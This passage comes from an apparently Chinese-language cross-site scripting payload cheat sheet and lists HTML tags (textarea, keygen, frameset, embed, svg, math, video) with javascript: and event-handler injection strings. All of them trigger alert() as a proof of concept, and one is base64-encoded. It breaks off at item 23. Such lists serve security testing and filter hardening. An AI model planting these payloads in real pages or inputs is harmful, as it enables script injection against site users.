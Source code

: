 16. textarea标签

    ```Html
    <textarea onfocus=javascript:alert(1) autofocus>
    ```

17. keygen标签

    ```html
    <keygen onfocus=javascript:alert(1) autofocus>
    ```

18. frameset标签

    ```html
    <FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET> 
    ```

19. embed标签

    ```html
    <embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed> //chrome 
    ```

    ```html
    <embed src=javascript:alert(1)> //firefox
    ```

20. svg标签

    ```html
    <svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
    ```

    ```html
    <svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>  //chrome有效
    ```

21. math标签

    ```html
    <math href="javascript:javascript:alert(1)">CLICKME</math> 

    <math><y/xlink:href=javascript:alert(51)>test1 

    <math> <maction actiontype="statusline#http://wangnima.com" xlink:href="javascript:alert(49)">CLICKME 
    ```

22. video标签

    ```html
    <video><source onerror="alert(1)"> 

    <video src=x onerror=alert(48)>
    ```

    ​

23. audio标签
